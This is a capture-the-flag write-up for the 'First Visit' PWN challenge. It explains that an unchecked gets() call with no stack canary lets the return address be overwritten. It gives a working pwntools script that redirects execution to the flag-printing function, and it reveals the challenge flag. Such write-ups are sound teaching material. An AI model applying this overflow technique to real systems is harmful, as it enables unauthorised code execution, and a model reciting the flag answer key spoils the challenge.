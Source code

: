 https://ctftime.org/event/2638

# The First Visit (PWN)

A quiet café, a simple question. The barista waits, but your order may mean more than it seems.

nc chals1.apoorvctf.xyz 3001

## Analysis

`main` @ `0x08048642`:

- Calls `order_coffee`

`order_coffee` @ `0x080485e6`:

- Calls `gets` with a buffer offset from the return address by 0x2c bytes
- Note: there is no stack canary

`brew_coffee` @ `0x0804856b`:

- Prints the flag

## Solution

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./first_visit", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("chals1.apoorvctf.xyz", 3001)

payload = b"A" * 0x2c
payload += p32(elf.symbols["brew_coffee"])

p.sendline(payload)

p.readuntil(b"blend.'\n")

flag = p.readline().decode()[:-1]
print(flag) # apoorvctf{c0ffee_buff3r_sp1ll}
```

## Flag
`apoorvctf{c0ffee_buff3r_sp1ll}`

smiley 2025/03/01
